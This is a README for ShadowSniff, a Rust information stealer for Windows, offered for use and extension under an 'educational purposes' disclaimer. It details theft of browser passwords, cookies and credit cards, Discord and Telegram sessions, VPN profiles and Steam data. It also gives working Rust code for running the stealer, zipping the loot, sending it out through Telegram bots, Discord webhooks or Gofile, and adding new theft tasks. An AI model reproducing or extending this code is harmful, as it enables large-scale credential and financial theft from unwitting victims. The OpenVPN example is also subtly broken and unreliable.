




<div align="center">
    
</div>

<div align="center">
    <h1>ShadowSniff</h1>
    <p>Lightweight information stealer written in Rust, targeting Windows systems. It interacts directly with the Windows API and avoids unnecessary external dependencies, resulting in a compact, efficient, and low-footprint binary. (PoC. For Educational Purposes only)</p>
    <p>Made in Russia.</p> 
    <div align="center">
        <a href="https://github.com/sqlerrorthing/ShadowSniff/network/members"></a>
        <a href="https://github.com/sqlerrorthing/ShadowSniff/stargazers"></a>
        <a href="https://github.com/sqlerrorthing/ShadowSniff/issues"></a>
        
        <a href="https://github.com/sqlerrorthing/ShadowSniff/blob/master/LICENSE"></a>
    </div>
</div>

---

_This project is currently under development, and a fully functional version has not been released yet.
Features and stability may change.
Please consider enabling notifications to stay informed about updates and important announcements._

## Features

Despite its lightweight design, ShadowSniff delivers extensive functionality,
covering all essential data extraction capabilities for Windows targets.

### Log Sending

This module supports sending log files either as internal attachments (uploaded directly to a platform) 
or via external links (uploaded to a file hosting service first, then linked).

This flexibility allows the creation of wrappers like custom uploaders or platform-specific limits.

#### Supported Upload Destinations

| Service                             | Max File Size | Notes                 |
|-------------------------------------|---------------|-----------------------|
| [Catbox](https://catbox.moe/)       | 200 MB        |                       |
| [/tmp/files](https://tmpfiles.org/) | 100 MB        | 1-hour lifetime limit |
| [Gofile](https://gofile.io/)        | _unknown_     |                       |


> **Platform Limitations**
> - **Telegram:** Approx. 2 GB file limit per message
> - **Discord:** 25 MB file size limit

#### Platform Integrations

##### Discord Webhook

| Attachment Upload                                    | External Upload (Link)                             |
|------------------------------------------------------|----------------------------------------------------|
|  |  |

##### Telegram Bot

| Attachment Upload                                     | External Upload (Link)                              |
|-------------------------------------------------------|-----------------------------------------------------|
|  |  |

---

### Browsers

| Feature      |                           Chromium (<127, see [here](https://github.com/sqlerrorthing/ShadowSniff/blob/master/shadowsniff/browsers/src/chromium/mod.rs#320))                            |                                    Gecko                                    |
|--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|:---------------------------------------------------------------------------:|
| Supported    | Amingo, Torch, Kometa, Orbitum, Epic Private, Cent, Vivaldi, **Chromium**, Thorium, **Opera**, **Opera GX**, 7Star, Chrome SxS, **Chrome**, **Edge**, Uran, **Yandex**, **Brave**, Atom |                         **Firefox**, **Librewolf**                          |
| AutoFill     |                                                                                            ✅                                                                                            |                                      ❌                                      |
| Bookmarks    |                                                                                            ✅                                                                                            |                                      ❌                                      |
| Cookies      |                                                                                            ✅                                                                                            |                                      ✅                                      |
| Passwords    |                                                                                            ✅                                                                                            | 🟡 (if using [PasswordFox](https://www.nirsoft.net/utils/passwordfox.html)) |
| Credit cards |                                                                                            ✅                                                                                            |                                      ❌                                      |
| Downloads    |                                                                                            ✅                                                                                            |                                      ❌                                      |
| History      |                                                                                            ✅                                                                                            |                                      ✅                                      |

### Messengers

- [x] Discord
- [x] Telegram sessions

### System

- [x] Process list
- [x] Clipboard
- [x] Screenshot
- [x] System info
- [x] User info

### VPN

- [x] OpenVPN
- [x] Outline

### Games

- [x] Steam

_... more_

If you'd like the stealer to support additional features, feel free to open an [issue](https://github.com/sqlerrorthing/ShadowSniff/issues/new/choose) here to request the functionality —
or implement it yourself.

## Workflow

This section describes the complete execution pipeline for ShadowSniff, outlining each step from environment
initialization to data collection, archiving, and exfiltration.

The stealer follows a modular, multithreaded architecture, leveraging composable tasks, virtualized filesystems, and extensible log delivery methods.

```mermaid
classDiagram
   direction TB

   class InitIPInfo {
      <<ENTRYPOINT>>
      +init_ip_info() : bool
      "Initializes IP metadata lookup"
      "If returns false → abort execution"
   }

   class Filesystem {
      +VirtualFileSystem or StorageFileSystem
      "Defines output destination"
      "Can be memory-based or disk-based"
   }

   class Collector {
      "Gathers statistics and metadata"
      "Used to report collected content"
   }

   class OutputPath {
      +output : Path
      "Defines where collected data is temporarily stored"
   }

   class SniffTask {
      <<STEALER_ENTRYPOINT>>
      
      +SniffTask::default().run(..) / SniffTask::with_subtask(...).run(...)
      "Main stealer logic"
      "Spawns sub-tasks in parallel threads"
      "Each task gathers specific data (e.g., browsers, VPNs, system info)"
   }

   class ZipPassword {
      "Protects archive content"
   }

   class ZipArchive {
      +ZipArchive::create()
      "Compresses output directory"
      "Embeds log comment from collector"
      "Can be stored locally or uploaded"
   }

   class LogSender {
      +upload_discord(...) / upload_telegram(...) / ...
      "Sends final archive to configured platform"
      "Chooses between direct attachment or external link (e.g., Gofile)"
      "Handles platform file size limits"
   }

   class AdditionalSteps {
      +CompositeTask, CustomTask
      "Optional cleanup or post-upload actions"
      "Example: delete local logs, notify endpoint, self-delete"
   }

%% Execution flow
   InitIPInfo --> SniffTask : "after retrieve ip info"
   Filesystem --> SniffTask : "filesystem to write the content"
   Collector --> SniffTask : "collect destination"
   OutputPath --> SniffTask : "the output log directory"

%% ZipArchive stage
   SniffTask --> ZipArchive : "after data collection"
   Collector --> ZipArchive : "adds comment"
   Filesystem --> ZipArchive : "reads files"
   OutputPath --> ZipArchive : "source directory"

   ZipPassword --> ZipArchive : "sets zip password"
   
   Collector --> LogSender : "the entire log metadata"
   ZipArchive --> LogSender : "uploads log archive"
   LogSender --> AdditionalSteps : "optional cleanup"
```

## Contributing

Feel free to open issues or submit pull requests — all contributions are welcome,
whether it's a bug fix, a new feature, or just an idea.

⭐ You can also support the project by starring the repository — it's
a small action that makes a big difference!

Thanks for being part of the project ❤️

---

**Important:**  
By contributing to this project,
you agree that your changes will be licensed under the same MIT License as the original project.  
Please ensure your contributions comply with the terms of the [MIT License](./LICENSE).

## Use as a library

This stealer is task-based.
Each task can spawn subtasks, but the main task is `shadowsniff::SniffTask`,
which is responsible for collecting the entire log.

There are also composite tasks that contain other tasks.
When started, each task runs in its own thread.
A composite task waits for all its subtasks to finish before it completes.

The stealer **does not use the Rust standard library**.
---

**License Notice:**  
When using this project as a library, you must comply with the terms of the MIT License under which this project is released.  
Please see the [LICENSE](./LICENSE) file for details.

Example run
```rust
use filesystem::path::Path;
use ipinfo::init_ip_info;
use shadowsniff::SniffTask;
use collector::atomic::AtomicCollector;
use collector::DisplayCollector;
use filesystem::storage::StorageFileSystem;
use filesystem::virtualfs::VirtualFileSystem;
use filesystem::FileSystem;
use zip::ZipArchive;

pub fn main(_argc: i32, _argv: *const *const u8) -> i32 {
    // required step
    if !init_ip_info() {
        panic!("Failed to initialize IP info");
    }

    let fs = VirtualFileSystem::default(); // for build log in-memory
    let collector = AtomicCollector::default();
    
    let out = Path::new("output");
    let _ = fs.mkdir(&out);
  
    // running the stealer
    SniffTask::default().run(&out, &fs, &collector);

    let displayed_collector = format!("{}", DisplayCollector(collector));

    let zip = ZipArchive::default()
        .add_folder_content(&fs, &out)
        .password("shadowsniff-output")
        .comment(displayed_collector);
  
    
    // 1. write to the file `output.zip`
    //
    let zip = zip.create();
    let out = Path::new("output.zip");
    let _ = StorageFileSystem.write_file(&out, &zip);
    
    // 2. or upload, like call upload_telegram
    //
    // let _ = upload_telegram(env!("CHAT_ID"), env!("BOT_TOKEN"), Arc::from("log.zip"), zip);
  
    0
}
```

Upload to the telegram
```rust
use collector::Collector;
use sender::{LogSenderExt, SendError};
use zip::ZipArchive;
use sender::telegram_bot::TelegramBotSender;

pub fn upload_telegram<C>(chat_id: &str, bot: &str, log_filename: Arc<str>, zip: ZipArchive, collector: &C) -> Result<(), SendError>
where
    C: Collector
{
    TelegramBotSender::new(Arc::from(chat_id), Arc::from(bot))
        .send_archive(log_filename, zip, collector)
}
```

Uploads a log to a Discord webhook, with a fallback to Gofile if the archive exceeds Discord's file size limit.
```rust
use collector::Collector;
use sender::{LogSenderExt, SendError};
use sender::discord_webhook::DiscordWebhookSender;
use sender::gofile::GofileUploader;
use sender::size_fallback::SizeFallbackSender;
use zip::ZipArchive;

pub fn upload_discord<C>(webhook: &str, log_filename: Arc<str>, zip: ZipArchive, collector: &C) -> Result<(), SendError>
where 
    C: Collector
{
    let discord = DiscordWebhookSender::new(Arc::from(webhook));
    let gofile = GofileUploader::new(discord.clone());
    
    SizeFallbackSender::new(discord, gofile)
        .send_archive(log_filename, zip, collector)
}
```

### Tasks
#### 1. Creating own task
To integrate a custom task into the system, implement the [Task](https://github.com/sqlerrorthing/ShadowSniff/blob/master/tasks/src/lib.rs#L71) trait.

#### 2. Task trait overview
The Task trait has two main methods:
1. ##### `parent_name() -> Option<String>`
   This method returns an optional name that specifies a subdirectory where your task’s output should be written.

   - If you return Some(name), your output files will be stored under the directory:
     `<parent>/<name>/`
   - If you return None, your output files will be written directly under the provided parent directory.

   This gives your task flexibility to isolate its outputs or write flatly in the parent directory, depending on your use case.

   The default implementation returns None, so if you don’t override this, your outputs go directly into parent.

   #### Convenience Macro: `parent_name!`
    
   To make it easier to implement the parent_name method, the crate provides the `parent_name!` macro:
   `parent_name($name:expr)`
   
   - This macro takes a string literal `$name` and generates an implementation of the `parent_name()` method that returns `Some(name)` wrapped in an obfuscated string for potential security or binary size benefits.
   - Using this macro simplifies your implementation — instead of writing out the full method, you just write:
     ```rust
     impl<C: Collector, F: FileSystem> Task<C, F> for MyTask {
         parent_name!("my_task_output");
     
         fn run(&self, parent: &Path, filesystem: &F, collector: &C) {
             // your run logic here
         }
     }
     ```
     This way, you get a concise, safe, and consistent parent_name method without boilerplate.

2. ##### `run(&self, parent: &Path, filesystem: &F, collector: &C)`
   This method executes the actual task logic:
   
   - `parent`: The base directory where output should be written.
   - `filesystem`: A filesystem abstraction implementing [`FileSystem`](https://github.com/sqlerrorthing/ShadowSniff/blob/master/filesystem/src/lib.rs) where you write files.
   - `collector`: A statistics collector implementing [`Collector`](https://github.com/sqlerrorthing/ShadowSniff/blob/master/collector/src/lib.rs).

   Your implementation should:

   - Write all data only inside this (parent) path.
   - Avoid panics and handle errors gracefully.

#### 3. Example: Implementing a simple OpenVPN task
```rust
use alloc::borrow::ToOwned;
use tasks::{parent_name, Task};
use filesystem::{FileSystem, copy_content_with_filter, path::Path};
use collector::Collector;
use obfstr::obfstr as s;

// define the struct
pub struct OpenVPN;

// impl Task trait
impl<C: Collector, F: FileSystem> Task<C, F> for ExampleTask {
    // to <parent>/OpenVPN folder
    parent_name!("OpenVPN");
    
    // task entrypoint
    fn run(&self, parent: &Path, filesystem: &F, collector: &C) {
        // there is OpenVPN store their profiles
        let profiles = Path::appdata() / s!("OpenVPN Connect") / s!("profiles");
        
        // nothing to do if the profiles doesn't exist
        if StorageFileSystem.is_exists(&profiles) {
            return;
        }

        // copy between filesystems to populate log file content
        let _ = copy_content_with_filter(
            // source filesystem
            StorageFileSystem,
            
            // source path
            profiles,
            
            // destination filesystem
            filesystem,
            
            // destination path
            parent,
            
            // filter, applied to each file being copy, 
            // if return true - the file will copy
            &|profile| {
                profile.extension().map(|ex| ex.contains(s!("ovpn"))).unwrap_or(false)
            }
        );
    }
}
```

#### 4. Task groups (CompositeTask)
Sometimes, a single task isn't enough — you might want to run multiple related tasks together. For that, the system provides a composite task mechanism that lets you define a group of tasks which all run in parallel.

##### What is a Composite Task?
A CompositeTask is a special type of task that holds and manages a list of other tasks. When executed, it:

- Runs each inner task in its own thread.
- Wait for all tasks to finish.
- Stores output in a subdirectory if desired.

This is useful for building logical task groups

#### 5. Creating a Task Group
Here's an example of a grouped task named VpnTask that runs a single sub-task OpenVPN, but is structured to support any number of tasks:

```rust
use alloc::borrow::ToOwned;
use tasks::CompositeTask;
use tasks::{composite_task, impl_composite_task_runner, CompositeTask, Task};
use filesystem::{FileSystem, path::Path};
use collector::Collector;

pub struct VpnTask<C: Collector, F: FileSystem> {
    inner: CompositeTask<C, F>,
}

impl<C: Collector + 'static, F: FileSystem + 'static> Default for VpnTask<C, F> {
    fn default() -> Self {
        Self {
            inner: composite_task!(
                OpenVPN // and other tasks, divided by comma
            ),
        }
    }
}

impl_composite_task_runner!(VpnTask<C, F>, "Vpn" /* the parent_name, optional */);
```

And if you want, add it to the main, "entrypoint" task - `SniffTask` if you are contributing the project
```rust
pub struct SniffTask<C: Collector, F: FileSystem> {
    inner: CompositeTask<C, F>,
    subtask: Option<Box<dyn Task<C, F>>>,
}

impl<C: Collector + 'static, F: FileSystem + 'static> Default for SniffTask<C, F> {
    fn default() -> Self {
        Self {
            inner: composite_task!(
                /* ... */,
                VpnTask::default(),
                /* ... */,
            ),
            subtask: None
        }
    }
};

// ...
```

Or use `SniffTask` api and create the `SniffTask` instance with your task using:
```rust
fn main() {
    SniffTask::with_subtask(composite_task!(
        VpnTask::default() // and other tasks, divided by comma
    )).run(/* out */, /* filesystem */, /* collector */);
}
```

### FileSystem
All file operations in this system are abstracted using the FileSystem trait. This allows your code to work with multiple backends — such as the real Windows file system or an in-memory virtual one — without changing task logic.

This design provides flexibility for:
- Real-world use (e.g., writing to disk during deployment)
- Hiding (e.g., writing into memory without touching the disk)

#### The `FileSystem` trait
The trait defines a complete interface for working with files and directories in a backend-agnostic way.

It includes methods to: `read_file`, `write_file`, `create_file` and [etc](https://github.com/sqlerrorthing/ShadowSniff/blob/master/filesystem/src/lib.rs).

#### Storage Backends
Two key implementations of this trait are included:

1. `StorageFileSystem` (*Real Filesystem*)
   
   - Target: Windows filesystem
   
   - Purpose: Used to communicate with real user filesystem

2. `VirtualFileSystem` (*In-Memory*)
   
   - Target: RAM (no disk interaction).
   
   - Purpose: Used for temp files (if not big) and construct log file

#### Copying Between Filesystems
To support moving data across filesystems — e.g., from virtual memory to disk, or from a remote archive into the target output directory — several utility functions are provided.

see [here](https://github.com/sqlerrorthing/ShadowSniff/blob/master/filesystem/src/lib.rs#L151-L308)

## Acknowledgments

This project has been inspired by a variety of open-source infostealers available on GitHub.
Many functions and critical paths were adapted from publicly available repositories.
The goal was to build something original by learning from and evolving existing work.
I’d like to thank everyone whose contributions helped shape this project — with special appreciation to:

- [davimiku](https://github.com/davimiku/json_parser) — for a clean and efficient JSON parser implementation
- [CasualX](https://github.com/CasualX/obfstr) — for compile-time string obfuscation

...and many others whose code, ideas, or techniques helped shape this project —
even if only through a single clever line of Rust.

## License

This library is released under the MIT License. See LICENSE file for more information.

---

## Disclaimer

### Important Notice: This tool is intended for educational purposes only.

This software, known as ShadowSniff, is intended solely for educational and research purposes.
It must never be used for malicious purposes, including (but not limited to) unauthorized access,
data breaches, or any other harmful or illegal activities.

### Usage Responsibility:

By using this tool, you accept full responsibility for your actions.
Any form of misuse is strictly forbidden.
The creator (sqlerrorthing) bears no liability for how the tool is used.
It is your sole duty to ensure that your usage complies with all relevant laws and regulations in your area.

### No Liability:

The creator (sqlerrorthing)
of this tool assumes no responsibility for any damage or legal consequences that may result from its use or misuse.
This includes,
but is not limited to, any direct, indirect, incidental, consequential,
or punitive damages arising from your access to, use of, or inability to use the software.

### No Support:

The creator (sqlerrorthing) will not offer any support, guidance, or assistance in cases involving misuse of this tool.
Any inquiries related to malicious or unauthorized activities will be disregarded.

### Acceptance of Terms:

By using this tool, you acknowledge and accept the terms of this disclaimer.
If you do not agree with these terms, you must refrain from using the software.
